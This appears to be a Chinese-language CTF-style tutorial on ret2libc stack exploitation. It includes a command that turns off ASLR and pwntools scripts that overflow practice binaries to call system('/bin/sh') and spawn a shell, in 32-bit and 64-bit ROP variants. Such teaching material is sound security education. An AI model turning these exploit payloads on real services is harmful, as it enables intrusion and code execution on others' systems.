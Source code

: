 ```yaml
---
title: 'ret2libc'
date: '2023-08-18'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '标准 ROP 漏洞利用'
authors: ['default']
---
```


ret2libc 基于 C 标准库中的 `system` 函数。该函数会执行传递给它的任何内容，
这使其成为最佳攻击目标。libc 中的另一个内容是字符串 `/bin/sh` ；如果你将
此字符串传递给 `system` 函数，它会弹出一个 shell。

这就是它的全部内容——将 `/bin/sh` 作为参数传递给 `system` 。

LINK

## 0x01 禁用 ASLR

首先，我们将禁用 ASLR。ASLR 随机化 libc 在内存中的地址，这意味着我们无法计算出
`system()` 和 `/bin/sh` 的位置。为了便于你理解一般理论，我们将从禁用它开始。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 0x02 手动利用

### 1x01 获取 libc 地址

幸运的是 Linux 有一个名为 `ldd` 的命令用于动态链接。如果我们用它来查看编译好的 ELF
文件，它会告诉我们它使用的库及其地址。

```bash
$ ldd vuln-32
	  linux-gate.so.1 (0xf7eda000)
	  libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
	  /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7edd000)
```

`libc.so.6` 是我们需要的 libc 文件，所以 libc 的地址是 `0xf7c00000` 。

:::info
`libc` 地址以及 `system()` 和 `/bin/sh` 的偏移量对你来说可能不同。这不是问题，它只是
意味着你有不同的版本的 `libc` 。
:::

### 1x02 获取 system() 的地址

为了调用 `system()` ，我们肯定需要它在内存中的地址。为此，我们可以使用 `readelf` 命令。

```bash
$ readelf -s /usr/lib32/libc.so.6 | grep system
  3209: 0004f610    63 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

`-s` 参数告诉 `readelf` 查看当前 ELF 文件的符号表，符号表中的信息只包括 **全局变量
和函数名**。这里我们可以发现 `system()` 距 `libc` 库的偏移量是 `0x4f610` 。

### 1x03 获取 /bin/sh 的地址

由于 `/bin/sh` 只是一个字符串，因此我们可以在刚刚通过 `ldd` 找到的动态链接库的基础上使用
`strings` 指令。注：当将字符串作为参数传递时，你需要传递指向字符串的 **地址**，而不是字符串
的十六进制表示形式，因为这就是 C 语言所规定的方式。

```bash
$ strings -a -t x /usr/lib32/libc.so.6 | grep /bin/sh
  1c4dcd /bin/sh
```

`-a` 告诉它扫描整个文件；`-t x` 告诉它以十六进制格式输出偏移量。

### 1x04 32-bit 漏洞利用

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

libc_addr = 0xf7c00000
system_addr = libc_addr + 0x4f610
shell_addr = libc_addr + 0x1c4dcd

payload = b'A' * 76          # Padding 到 EIP
payload += p32(system_addr)  # system() 的地址
payload += p32(0x0)          # 避免异常
payload += p32(shell_addr)   # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

### 1x05 64-bit 漏洞利用

使用链接到 64-bit 程序的 `libc` 重复上述过程。

注：你必须使用 `pop rdi; ret` gadget 将其放入 RDI 寄存器中，而不是在返回地址之后传递参数。

```bash
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
[...]
$ ROPgadget --binary vuln-64 | grep rsi
[...]
0x00000000004011c9 : pop rsi ; pop r15 ; ret
[...]
```

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

libc_addr = 0x7ffff7c00000
system_addr = libc_addr + 0x4f760
shell_addr = libc_addr + 0x19fe34

POP_RDI, POP_RSI_R15 = 0x4011cb, 0x4011c9

payload = b'A' * 72          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(shell_addr)   # 传入 /bin/sh 的地址
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0x0) * 2      # 填充 rsi 和 r15
payload += p64(system_addr)  # 把 system() 的地址传入 RIP

p.sendline(payload)

p.interactive()
```

## 0x03 使用 pwntools 实现半自动

pwntools 拥有大量功能，使这一切变得更加简单。

```python:exp.py
# 32-bit
from pwn import *

context(os='linux', arch='amd64', log_level='info')

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                             # 获取程序正在使用的 libc
libc.address = 0xf7c00000                   # 设置 libc 地址

system_addr = libc.sym['system']            # 获取 system() 的地址
shell_addr = next(libc.search(b'/bin/sh'))  # 获取 /bin/sh 的地址

payload = b'A' * 76                         # Padding 到 EIP
payload += p32(system_addr)                 # system() 的地址
payload += p32(0x0)                         # 避免异常
payload += p32(shell_addr)                  # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

64-bit 的半自动脚本本质上是一样的。

:::tip
如果题目提供了 libc ，也可以这样用：

libc = ELF('libc.so.6')

print(libc.sym['system'])
:::

:::info
pwntools 可以通过其 ROP 功能进一步简化它，但我不会在这里展示它们。
:::

